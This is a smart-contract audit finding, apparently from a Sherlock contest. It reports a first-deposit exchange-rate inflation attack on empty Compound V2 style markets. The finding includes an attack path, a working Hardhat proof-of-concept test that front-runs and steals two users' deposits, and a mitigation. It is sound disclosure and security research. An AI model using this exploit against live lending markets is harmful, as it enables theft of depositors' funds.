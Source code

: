 Little Olive Yeti

High

# Empty market deposits can be stolen by inflation attack

### Summary

Compound V2 empty markets are vulnerable to a vault inflation attack. The first depositor's funds can easily be stolen by donating a small amount to the market, artificially inflating the exchange rate, and then withdrawing after the victim's deposit. This attack can be repeated multiple times until a legitimate deposit is made.

### Root Cause

How the exchange rate is calculated when minting/redeeming cTokens.

https://github.com/sherlock-audit/2024-12-mach-finance/blob/94f707dd94fc13dc0132deaa89c68f53bed306fa/contracts/src/CToken.sol#L487-L503

### Internal Pre-conditions

1. Admin adding a new market


### External Pre-conditions

None needed

### Attack Path

1. Admin adds a new market
2. Attacker mints 1 wei worth of cTokens
3. Attacker donates some amount of underlying tokens directly to cToken via ERC20 transfer
4. Attacker waits for users deposits, due to round down user will get 0 cTokens
5. Attacker withdraws its cTokens, effectively stealing the users deposit

### Impact

The attack can be repeatedly executed to steal each user's deposit until the attacker fails to front-run a legitimate deposit.

### PoC


```typescript
describe("First Deposit Bug", function () {
  it("Attack Scenario", async function () {
    const UNDERLYING_DECIMALS = 18;
    const CTOKEN_DECIMALS = 8;
    const UNITROLLER_ADDR = "0x3d9819210A31b4961b30EF54bE2aeD79B9c9Cd3B";

    const [deployer, user1, user2, attacker] = await ethers.getSigners();

    // Deploy a new underlying ERC20 contract
    const Token = await ethers.getContractFactory("Token");
    const UnderlyingC = await Token.deploy(UNDERLYING_DECIMALS);

    // Deploy a new CToken contracts (Delegate & Delegator)
    const CErc20Delegate = await ethers.getContractFactory("CErc20Delegate");
    const cErc20Delegate = await CErc20Delegate.deploy();
    await cErc20Delegate.deployed();

    const totalDecimals = UNDERLYING_DECIMALS + CTOKEN_DECIMALS;
    const initialExcRateMantissaStr = parseUnits("2", totalDecimals);

    const CErc20Delegator = await ethers.getContractFactory("CErc20Delegator");
    const cErc20Delegator = await CErc20Delegator.deploy(
      UnderlyingC.address,
      UNITROLLER_ADDR,
      await getIRModelFromUnitroller(UNITROLLER_ADDR),
      initialExcRateMantissaStr,
      "New CToken",
      "NCT",
      CTOKEN_DECIMALS,
      deployer.address,
      cErc20Delegate.address,
      "0x"
    );
    const CTokenC = cErc20Delegator;

    const ComptrollerC = await ethers.getContractAt(ComptrollerABI, UNITROLLER_ADDR);
    const protocolAdminAddr = await ComptrollerC.admin();
    await hre.network.provider.request({ method: "hardhat_impersonateAccount", params: [protocolAdminAddr] });                  // Impersonate `admin` account so that we can call Comptroller._supportMarket()
    const protocolAdmin = await ethers.getSigner(protocolAdminAddr)
    await ComptrollerC.connect(protocolAdmin)._supportMarket(CTokenC.address);
    /// The newly deployed CToken is added to the lending protocol
    console.log(`CToken deployed to:`, CTokenC.address);

    await UnderlyingC.mint(user1.address, parseUnits("1000000", UNDERLYING_DECIMALS));                                          // Funding user wallets with 1M underlying tokens
    await UnderlyingC.mint(user2.address, parseUnits("1000000", UNDERLYING_DECIMALS));
    await UnderlyingC.mint(attacker.address, parseUnits("2000000", UNDERLYING_DECIMALS));                                       // Funding the attacker wallet with 2M underlying tokens
    expect(await CTokenC.balanceOf(attacker.address)).to.eq(0);                                                                 // Verify that CToken balance of attacker is 0

    console.log(`\nBefore Attack`);
    console.log(`User1 underlying token balance:      ${(formatUnits((await UnderlyingC.balanceOf(user1.address)), UNDERLYING_DECIMALS))}`);
    console.log(`User2 underlying token balance:      ${(formatUnits((await UnderlyingC.balanceOf(user2.address)), UNDERLYING_DECIMALS))}`);
    console.log(`Attacker's underlying token balance: ${(formatUnits((await UnderlyingC.balanceOf(attacker.address)), UNDERLYING_DECIMALS))}`);

    await UnderlyingC.connect(attacker).approve(CTokenC.address, ethers.constants.MaxUint256);

    await UnderlyingC.connect(user1).approve(CTokenC.address, ethers.constants.MaxUint256);                                     // The user starts the first deposit process and issues the token approval txn

    // Now the attacker observes that a user is trying to make a deposit.
    // Since this is the first deposit for this respective CToken, the attacker tries to exploit the bug
    // by frontrunning the user's deposit txn with his specially crafted txns. 
    await CTokenC.connect(attacker).mint(parseUnits("2", CTOKEN_DECIMALS));                                                     // Attacker mints the smallest unit of CToken

    // The attacker now holds 1 unit of CToken token
    expect(await CTokenC.balanceOf(attacker.address)).to.eq(1);
    expect(await CTokenC.totalSupply()).to.eq(1);

    // Now attacker artificially inflates the underlying token balance of the CToken contract by simply transferring 1M underlying tokens to the CToken contract
    await UnderlyingC.connect(attacker).transfer(CTokenC.address, parseUnits("1000000", UNDERLYING_DECIMALS));

    expect(await CTokenC.getCash()).to.eq(parseUnits("1000000", UNDERLYING_DECIMALS).add(parseUnits("2", CTOKEN_DECIMALS)));    // Underlying token balance of CToken contract = 1M Tokens + 2e8 Token units

    await CTokenC.connect(user1).mint(parseUnits("1000000", UNDERLYING_DECIMALS));                                              // The actual user txn now gets validated on chain

    expect(await CTokenC.balanceOf(user1.address)).to.eq(0);                                                                    // Even after depositing 1M underlying tokens the user receives 0 units of CTokens
    expect(await CTokenC.totalSupply()).to.eq(1);                                                                               // CToken's totalSupply is still 1 unit which is held by Attacker

    await CTokenC.connect(attacker).redeem("1");                                                                                // The attacker now simply redeems his CToken balance for entire underlying token balance.
    expect(await UnderlyingC.balanceOf(attacker.address)).to.eq(parseUnits("3000000", UNDERLYING_DECIMALS));                    // The attacker now holds 3M underlying tokens, 2M of his own funds and 1M of user1's funds
    expect(await CTokenC.totalSupply()).to.eq(0);

    console.log(`\nAfter First Attack`);
    console.log(`User1 underlying token balance:      ${(formatUnits((await UnderlyingC.balanceOf(user1.address)), UNDERLYING_DECIMALS))}`);
    console.log(`Attacker's underlying token balance: ${(formatUnits((await UnderlyingC.balanceOf(attacker.address)), UNDERLYING_DECIMALS))}`);

    /// Since CToken's totalSupply has become 0, the same attack can now be performed again on another user and another deposit
    /// The attacker again captures the user's deposit from the protocol
    await UnderlyingC.connect(user2).approve(CTokenC.address, ethers.constants.MaxUint256);

    await CTokenC.connect(attacker).mint(parseUnits("2", CTOKEN_DECIMALS));
    expect(await CTokenC.balanceOf(attacker.address)).to.eq(1);
    expect(await CTokenC.totalSupply()).to.eq(1);
    await UnderlyingC.connect(attacker).transfer(CTokenC.address, parseUnits("1000000", UNDERLYING_DECIMALS));

    expect(await CTokenC.getCash()).to.eq(parseUnits("1000000", UNDERLYING_DECIMALS).add(parseUnits("2", CTOKEN_DECIMALS)));

    await CTokenC.connect(user2).mint(parseUnits("1000000", UNDERLYING_DECIMALS));

    expect(await CTokenC.balanceOf(user2.address)).to.eq(0);
    expect(await CTokenC.totalSupply()).to.eq(1);

    await CTokenC.connect(attacker).redeem("1");
    expect(await UnderlyingC.balanceOf(attacker.address)).to.eq(parseUnits("4000000", UNDERLYING_DECIMALS));
    expect(await CTokenC.totalSupply()).to.eq(0);

    console.log(`\nAfter Second Attack`);
    console.log(`User2 underlying token balance:      ${(formatUnits((await UnderlyingC.balanceOf(user2.address)), UNDERLYING_DECIMALS))}`);
    console.log(`Attacker's underlying token balance: ${(formatUnits((await UnderlyingC.balanceOf(attacker.address)), UNDERLYING_DECIMALS))}`);
  });
});
}
```

PoC is taken from [here](https://github.com/akshaysrivastav/first-deposit-bug-compv2/blob/main/test/Attack.ts) with the correct deployments, the below PoC will work without a problem.

### Mitigation

Always make a first deposit when adding new markets. Alternatively, some shares can be minted virtually like Uniswap does